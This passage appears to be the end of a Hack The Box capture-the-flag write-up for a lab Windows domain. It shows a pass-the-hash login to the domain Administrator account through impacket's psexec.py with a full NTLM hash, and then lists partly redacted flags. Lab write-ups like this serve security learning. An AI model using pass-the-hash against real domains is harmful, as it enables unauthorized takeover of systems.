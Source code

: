 #### Pass-the-hash
Now, we just need to perform a **Pass-The-Hash** attack to log in to the Administrator account using **PsExec**. 
PsExec is a **light-weight telnet-replacement** that lets you execute processes on other systems, complete with full interactivity for console applications, without having to manually install client software.

```bash
psexec.py htb.local/Administrator@10.10.10.161 -hashes 'aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6'
``` 

And we own domain Administrator. 

![alt text](<Pasted image 20240107153914.png>)
# Flags
User : 173f....1da636............f8c99d

Root : b2....523934d9..............753aa
# Happy Hacking :)